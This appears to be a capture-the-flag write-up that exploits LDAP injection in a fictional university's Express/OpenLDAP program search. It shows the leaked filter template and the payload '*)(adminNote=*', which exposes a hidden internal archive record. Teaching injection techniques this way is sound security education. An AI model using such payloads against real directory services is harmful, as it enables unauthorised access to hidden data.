



! Saint Croix University sits between St. Stephen and Calais on the Saint Croix river. Its public-facing program directory has run on the same custom Express + OpenLDAP service the registrar's office set up in 2019, when a co-op student named Daniel wanted to "do it properly with a real directory backend". The site is small, the staff is small, and nobody has touched the search filter since. 

## [01] Identifying LDAP Template

In the briefing we are given a pretty solid clue that the site is using `Express` and `OpenLDAP`. We will keep this in mind as we look around the site. Navigating to the main site, the landing page gives us some info of what's available.


Clicking on `Find a program` sends us to the program page where we can find the offered programs. Testing for simple LDAP injection, putting an `*` in the search query shows all records returned. We infer that this query is vulnerable to LDAP injection.



Our next step is to load the request into a proxy such as `Burp Suite` so we can tamper with the request a bit easier. Trying different payloads to see how the application acts reveals the filter template.


## [02] Exploiting LDAP Injection

From our last request when we submitted `*)`, we were able to find a custom attribute, `adminNote`. 
```json
{
  "error": "Bad search filter — check your query syntax.",
  "backend": "openldap",
  "ldap_code": null,
  "ldap_message": "missing opening parentheses",
  "filter_template": "(&(objectClass=applicationProcess)(|(cn=*Q*)(displayName=*Q*)(ou=*Q*)(description=*Q*)(adminNote=*Q*)))"
}
```

We can update our query to search for any adminNote's as such:
```term
GET /api/programs/search?q=*)(adminNote=* HTTP/2
```

One thing I noticed immediately is that it returned 24 records, when previously a simple `*` returned 23. Looking through the json we see the adminNote attribute.
```json
{
  "objectClass": [
    "top",
    "applicationProcess",
    "extensibleObject"
  ],
  "cn": "registrar-archive",
  "displayName": "Records Office Internal Archive",
  "ou": "Office of the Registrar",
  "info": "internal",
  "description": "System-internal archive bucket. Do not link in public navigation; staff access via the registrar's portal only.",
  "adminNote": "xxxxxxxx"
}
```
